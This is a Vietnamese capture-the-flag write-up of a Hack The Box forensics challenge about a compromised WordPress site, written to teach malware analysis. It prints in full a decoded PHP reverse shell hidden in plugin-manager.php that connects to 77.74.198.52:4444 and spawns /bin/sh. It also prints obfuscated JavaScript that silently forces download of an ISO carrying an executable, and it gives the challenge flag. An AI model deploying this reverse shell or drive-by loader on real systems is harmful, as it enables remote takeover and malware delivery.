









# Challenge Fake News

## 1. Đầu vào challenge

Challenge cung cấp một folder HTML. Khi mở ra, thấy bên trong có nhiều thư mục con và các file PHP.



---

## 2. Nhận diện cấu trúc ban đầu

Từ tên các thư mục, có thể đoán đây là source của **WordPress**.

Tra cứu thêm thì thấy 3 thư mục quan trọng nhất là:

- `wp-admin`: chứa các tệp phục vụ giao diện quản trị
- `wp-content`: chứa các thành phần do user thêm vào, đặc biệt là **plugin** và **theme**
- `wp-includes`: chứa phần lớn các tệp lõi của WordPress



### Nhận định

Nếu muốn tìm payload bị chèn thêm, hướng hợp lý nhất là đi vào `wp-content` vì đây là nơi dễ bị cài plugin hoặc theme độc hại.

---

## 3. Dấu hiệu đáng chú ý trong `wp-content`

Khi kiểm tra trong `wp-content`, phát hiện một đoạn **Base64** trong file:

```text
plugin-manager.php
```



Đây là dấu hiệu rất đáng ngờ, vì các đoạn Base64 dài trong file PHP thường được dùng để:

- che giấu payload
- làm rối code
- giấu webshell / reverse shell

---

## 4. Decode `plugin-manager.php`

Sau khi decode, thu được một đoạn PHP script.

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '77.74.198.52';  // CHANGE THIS
$port = 4444;         // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$part1 = "HTB{C0m3_0n";
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();

    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }

    if ($pid) {
        exit(0);
    }

    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }

    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

//
// Do the reverse shell...
//

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

// Set everything to non-blocking
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }

    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }

    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }

    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
}
```

### Điểm đáng chú ý trong script

Từ nội dung đã decode được, có thể rút ra:

- IP kết nối ngược là:

```text
77.74.198.52:4444
```

- Shell được gọi là:

```php
/bin/sh -i
```

- Trong code xuất hiện các thành phần quan trọng như:
  - `fsockopen($ip, $port, ...)`
  - `proc_open($shell, ...)`
  - `stream_select(...)`

### Nhận định

Đây là một **PHP reverse shell**.

Flow của nó là:

1. mở kết nối TCP ngược tới attacker
2. spawn shell `/bin/sh -i`
3. chuyển dữ liệu giữa socket và shell
4. cho phép attacker điều khiển máy nạn nhân từ xa

---

## 5. Phần đầu của flag

Trong chính đoạn PHP đã decode, tìm được:

```php
$part1 = "HTB{C0m3_0n";
```
---

## 6. Tiếp tục tìm phần còn lại của flag

Sau khi có `part1`, tiếp tục tìm phần còn lại thì phát hiện một đoạn JavaScript lạ trong file `index.php`, nằm trong `wp-blogs`.



Đây là đoạn script đã bị **obfuscate**, với nhiều tên hàm và biến khó đọc. Trong script này có một số thành phần quan trọng:

- `function _0x2568()`
- `(function (_0x1a4410, _0x4183eb) { ... }(_0x2568, 0xb7cc2));`
- `function _0x41f2(...)`
- `function itstime(...)`

### Script 

```javascript
function _0x2568() {
    var _0x1af63a = [
        'Cxh5djBwRi4pQ0aKGVt3GXRaYQxuE2kVXUAwsDUZeDFeI...',
        'click',
        'FlKLoA2q6A4UlkGFSjQh1gYJOEnD',
        'createObjectURL',
        '10BaXJZE',
        'style',
        'length',
        'Hh91fKZWJzdGUyoV/3hcGyFceyjqOAAuVHJrIe4Tdjsj...',
        'display:\\x20none',
        '8zonlYT',
        'xdBjUmF/aPU3WFDretmpZxWHAAUdLUyBBxCb2ylX6RQJ...',
        'U2pRaDFnWUpPRW5ERmxLTG9BMnE2QTRVbGtHRlNqUWgx...',
        'None',
        'official_invitation.iso',
        'cbqbP5KJ12Lhir7F1zuPRvJzO69BylL3Ft/Adhx0eRl+...',
        'MWdZSk9FbkRGbEtMb0EycTZBNFVsa0dGU2pRaDFnWUpP...',
        'b0EycTZBNFVsa0dGU2pRaDFnWUpPRW5ERmxLTG9BMnE2...',
        'createElement',
        'Xl1NBywhM2VeDnVYZDMGbhcWKGVVRiR/YzhVeVx2TEID...',
        'T0VuREZsS0xvQTJxNkE0VWxrR0ZTalFoMWdZSk9FbkRG...',
        '6068426xTXWqq',
        'ZkQMAjpoEkAGbEM8Alh1ZmFaY1oBVmh5T0VuRAEvCHZP...',
        'NkE0VWxrR0ZTalFoMWdZSk9FbkRGbEtMb0EycTZBNFVs...',
        '1TUQXVt',
        'HDsj+U9kUpJuQHCaRFHrDFBxBFcKBgJNeWBUBDZUUm0X...',
        'log',
        'onmousemove',
        'charCodeAt',
        '372yjBMMT',
        '11682352IaHYwT',
        '510826uGVYgU',
        'PTFcfv9JPxPnir7RkokECgtbdyLR5mE3UlQGPiQ6Xzk8...',
        'fDQGb37f8xagcSM3RRdRP11kFqXQF/87DHJtY80d7ggd...',
        'bGtHRlNqUWgxZ1lKT0VuREZsS0xvQTJxNkE0VWxrR0ZT...',
        'atob',
        '41970Sqyfbk',
        '1006782pxrNvs',
        'URL',
        '1305747zgZXdf',
        'download',
        'NBh5dixcRi5BZUcKGFt3mTVaYQxuA2kVLXQxMDIZeDEf...',
        '839056yZMxxo'
    ];

    _0x2568 = function () {
        return _0x1af63a;
    };

    return _0x2568();
}

var done = ![];

(function () {
    var _0x541d35 = _0x41f2;

    window[_0x541d35(0x1b6)] = function (_0x10f306) {
        var _0x38def1 = _0x541d35;

        if (!done) {
            var _0x509442 = '',
                _0x25da02 = 'RmxLTG9BMnE2QTRVbGtHRlNqUWgxZ1lKT0VuREZsS0xvQ...',
                _0x301866 = 'U2pRaDFnWUpPRW5ERmxLTG9BMnE2QTRVbGtHRlNqUWgxZ...',
                _0x30591f = 'b0EycTZBNFVsa0dGU2pRaDFnWUpPRW5ERmxLTG9BMnE2Q...',
                _0x3d7530 = 'MWdZSk9FbkRGbEtMb0EycTZBNFVsa0dGU2pRaDFnWUpPR...',
                _0x377e9c = 'NkE0VWxrR0ZTalFoMWdZSk9FbkRGbEtMb0EycTZBNFVsa...',
                _0x12eb41 = 'T0VuREZsS0xvQTJxNkE0VWxrR0ZTalFoMWdZSk9FbkRGb...',
                _0x1f2f7c = 'bGtHRlNqUWgxZ1lKT0VuREZsS0xvQTJxNkE0VWxrR0ZTa...',
                _0x20643d = 'NBh5dixcRi5BZUcKGFt3mTVaYQxuA2kVLXQxMDIZeDEfI...',
                _0x136b2c = 'xdBjUmF/aPU3WFDretmpZxWHAAUdLUyBBxCb2ylX6RQJj...',
                _0x36eb81 = 'm2oCS2l/+i/4kjUZJlXilldXacWPVzh9QjlyXhIrhQxGI...',
                _0x42e583 = 'HDsj+U9kUpJuQHCaRFHrDFBxBFcKBgJNeWBUBDZUUm0XU...',
                _0x55dc63 = 'fDQGb37f8xagcSM3RRdRP11kFqXQF/87DHJtY80d7ggdC...',
                _0x78736a = 'cbqbP5KJ12Lhir7F1zuPRvJzO69BylL3Ft/Adhx0eRl+h...',
                _0x49aac6 = 'Hh91fKZWJzdGUyoV/3hcGyFceyjqOAAuVHJrIe4TdjsjC...',
                _0xc9fdf2 = 'Cxh5djBwRi4pQ0aKGVt3GXRaYQxuE2kVXUAwsDUZeDFeI...',
                _0x21bb5d = 'IR5jUgtWXhUVcX8bXVx7EwhxAhUMNXcKI1h7Mk0fYhVBB...',
                _0x570257 = 'Xl1NBywhM2VeDnVYZDMGbhcWKGVVRiR/YzhVeVx2TEIDc...',
                _0x206fdf = 'GUsiMUEZdm5rH1RmQUFYXQgmYEtyWj1pUzRccCB1KHNdF...',
                _0x3d38f4 = 'RDUGbzNaMxkkXiI3RVdpFSh1XiAZGHsTDXJtBUQ0BygcC...',
                _0x45ec78 = 'PTFcfv9JPxPnir7RkokECgtbdyLR5mE3UlQGPiQ6Xzk8P...',
                _0x120e40 = 'f20HHXUES1IxDEZwVRIqc2EvD0xwdQIuHHZqoR8edDsjC...',
                _0x507cff = 'ZkQMAjpoEkAGbEM8Alh1ZmFaY1oBVmh5T0VuRAEvCHZPa...';

            _0x509442 =
                _0x25da02 +
                _0x301866 +
                _0x30591f +
                _0x3d7530 +
                _0x377e9c +
                _0x12eb41 +
                _0x1f2f7c +
                _0x20643d +
                _0x136b2c +
                _0x36eb81 +
                _0x42e583 +
                _0x55dc63 +
                _0x78736a +
                _0x49aac6 +
                _0xc9fdf2 +
                _0x21bb5d +
                _0x570257 +
                _0x206fdf +
                _0x3d38f4 +
                _0x45ec78 +
                _0x120e40 +
                _0x507cff;

            var _0x2442a7 = base64ToArrayBuffer(_0x509442),
                _0x195351 = itstime(_0x2442a7, 'FlKLoA2q6A4UlkGFSjQh1gYJOEnD');

            console.log(_0x2442a7);
            console.log(_0x195351);

            var _0x38a512 = new Blob([_0x195351], { 'type': 'None' }),
                _0x562ab3 = document.createElement('a');

            document.body.appendChild(_0x562ab3);
            _0x562ab3.style = 'display: none';

            var _0x324272 = window.URL.createObjectURL(_0x38a512);

            console.log(_0x38a512);

            _0x562ab3.href = _0x324272;
            _0x562ab3.download = 'official_invitation.iso';
            _0x562ab3.click();

            done = !![];
        }
    };
}());

```

### Ý nghĩa từng phần

#### `function _0x2568()`

Hàm này chứa:

- các chuỗi payload rất dài
- tên hàm như:
  - `click`
  - `createObjectURL`
  - `createElement`
  - `atob`
  - `download`
- key XOR:

```text
FlKLoA2q6A4UlkGFSjQh1gYJOEnD
```

- tên file tải xuống:

```text
official_invitation.iso
```

#### `(function (_0x1a4410, _0x4183eb) { ... }(_0x2568, 0xb7cc2));`

Đoạn này dùng để **đảo vị trí mảng**, nhằm làm rối luồng đọc của script.

#### `function _0x41f2(...)`

Hàm này dùng để tra cứu chuỗi thật trong mảng đã bị đảo.

Ví dụ:

```text
_0x41f2(0x1be) -> 'atob'
```

#### `function itstime(...)`

Hàm này dùng để XOR từng byte với key:

```text
FlKLoA2q6A4UlkGFSjQh1gYJOEnD
```

### Flow thực tế của script

Khi hiểu toàn bộ flow, có thể rút ra script đang làm các bước sau:

1. ghép nhiều chuỗi payload dài thành một blob dữ liệu lớn
2. Base64 decode dữ liệu đó
3. XOR dữ liệu bằng key đã cho
4. tạo `Blob`
5. dùng `URL.createObjectURL(...)`
6. tạo thẻ `<a>`
7. ép trình duyệt tải xuống file:

```text
official_invitation.iso
```
---

### 7. Lấy file .iso

Dựng web ở local để lấy file .iso





## Kiến thức ngoài lề



**File `.iso`** là một file ảnh đĩa ISO. Nó là bản đóng gói của một đĩa CD/DVD ảo, bên trong có thể chứa nhiều file và thư mục.

Với malware, file ISO thường được dùng để:

- đóng gói payload
- che giấu file thực thi bên trong
- khiến user tưởng đây chỉ là một file lưu trữ bình thường

---

## 8. Kiểm tra nội dung file ISO

Sau khi lấy được file ISO, kiểm tra bên trong thì thấy có một file `.exe`. Cho thấy file ISO không phải tài liệu bình thường, mà đang dùng để mang theo payload thực thi.



---

## 9. Trích xuất và quét file thực thi

Tiếp theo, extract file `.exe` ra rồi dùng lệnh:

```bash
strings -a official_invitation.exe
```

để quét toàn bộ file và tìm các chuỗi có thể đọc được.



Từ đây tìm được:

```text
part2:_1t_w4s_t00_g00d_t0_b3_tru3}
```
---

## 11. Ghép flag hoàn chỉnh

```text
Flag: HTB{C0m3_0n_1t_w4s_t00_g00d_t0_b3_tru3}
```

---

## 12. Tóm tắt flow phân tích

```text
folder HTML
   |
   v
nhận ra đây là source WordPress
   |
   v
đi vào wp-content
   |
   v
phát hiện Base64 trong plugin-manager.php
   |
   v
decode ra PHP reverse shell
   |
   v
lấy được part1 của flag
   |
   v
tiếp tục kiểm tra file index trong wp-blogs
   |
   v
phát hiện JavaScript obfuscate
   |
   v
phân tích flow:
Base64 -> XOR -> Blob -> auto download
   |
   v
lấy được official_invitation.iso
   |
   v
mở ISO thấy file .exe bên trong
   |
   v
dùng strings quét official_invitation.exe
   |
   v
thu được part2 của flag
   |
   v
ghép lại thành flag hoàn chỉnh
```

---
